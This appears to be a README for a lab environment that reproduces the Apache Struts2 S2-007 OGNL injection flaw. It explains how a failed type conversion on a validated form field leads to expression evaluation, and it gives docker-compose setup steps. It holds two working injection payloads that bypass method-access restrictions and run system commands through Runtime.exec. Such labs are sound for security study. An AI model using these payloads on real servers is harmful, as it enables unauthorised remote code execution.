

# S2-007 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.2.3

Details: http://struts.apache.org/docs/s2-007.html

## Reference

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

When `<ActionName> -validation.xml` configured validation rules. If the type validation conversion fails, the server will splice the user-submitted form value strings, then performing an OGNL expression parsing and returning.

For example here is a `UserAction`:

```java
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

And `UserAction-validation.xml` configuration:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

When the user submits `age` as a `str` instead of an `int`, the server splices `"'" + value + "'"` with the code and then use the OGNL expression parse it. To make a successful expliot, we need find a form field configured with similar validation rules to make a conversion error. And then you can inject any OGNL expression code by the way just like SQL single quotes injected.

Payload which bypass the securely configured:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Setup

```
docker-compose build
docker-compose up -d
```

## Exploit

Here is the EXP that can execute arbitrary code:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

Put EXP into the input box (age), then get the command execution result:


